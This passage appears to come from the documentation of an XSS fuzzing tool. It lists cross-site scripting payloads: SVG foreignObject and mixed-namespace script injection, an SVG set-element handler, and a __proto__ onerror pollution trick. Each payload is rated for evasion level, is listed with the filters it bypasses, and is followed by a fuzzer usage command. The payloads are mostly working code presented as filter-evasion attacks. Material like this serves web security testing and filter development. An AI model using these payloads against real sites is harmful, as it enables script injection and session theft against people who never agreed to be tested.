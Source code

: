 ### 💀 Key Payloads

#### SVG foreignObject with XHTML Namespace
```html
<svg><foreignObject><div xmlns="http://www.w3.org/1999/xhtml"><script>alert(1)</script></div></foreignObject></svg>
```
- **Evasion Level**: 10/10
- **Bypasses**: foreignObject_filters, namespace_detection, xhtml_filters

#### Mixed Namespace SVG+XHTML
```javascript
document.body.innerHTML='<svg xmlns="http://www.w3.org/2000/svg"><script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script></svg>';
```
- **Evasion Level**: 10/10
- **Bypasses**: mixed_namespace_filters, innerHTML_svg_detection

#### SVG set Element Dynamic Attribute
```html
<svg><set attributeName=onmouseover to=alert(1)>
```
- **Evasion Level**: 9/10
- **Bypasses**: svg_set_filters, attributeName_detection

### 🔧 Usage Examples
```bash
# Test SVG namespace injection
xss-ai-domfuzz --contexts svg,mixed_namespace --mutations namespace_bypass
```

---

## 🧬 5. JavaScript Proto Pollution XSS

**Category**: `javascript_proto_pollution_xss`  
**Difficulty**: `god_tier_advanced`  
**Description**: Prototype pollution leading to DOM clobbering and XSS

### 🎯 Target Contexts
- Prototype pollution → DOM clobbering → XSS
- `__proto__.onerror`, `constructor.prototype`

### 💀 Key Payloads

#### __proto__ onerror Pollution
```javascript
__proto__.onerror = alert; throw 1;
```
- **Evasion Level**: 10/10
- **Bypasses**: proto_detection, onerror_filters, pollution_detection
